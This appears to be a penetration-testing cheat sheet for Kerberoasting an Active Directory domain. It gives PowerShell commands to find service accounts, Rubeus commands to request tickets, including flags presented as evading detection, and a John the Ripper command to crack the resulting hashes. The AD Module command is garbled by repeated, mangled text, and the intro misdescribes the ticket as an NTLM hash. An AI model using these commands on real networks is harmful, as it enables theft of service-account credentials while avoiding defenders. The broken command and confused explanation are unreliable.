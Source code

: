 # Kerberoast

In a Kerberos attack, the attacker requests a Kerberos session ticket (TGS)  to retrieve the service account's NTLM hash, which is partially encrypted with the service account's hash. \
This hash is then cracked offline to extract the service account's password.\


## Find SPNs

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -SPN
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {Servicer -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endtab %}
{% endtabs %}

## TGS

```powershell
# try to downgrade to RC4-HMAC and get hashes
Rubeus.exe kerberoast 

# to avoid detections look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /rc4opsec

# Specific SPN - more stealth
Rubeus.exe kerberoast /user:svcadmin  /rc4opsec

# usefull flags
/outfile:hashes.txt # output the hashes into file
/simple # hashes are output in the console one per line
/nowrap # results will not be line wrapped
/stats # will output statistics about kerberoastable users found
```

## Crack

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```
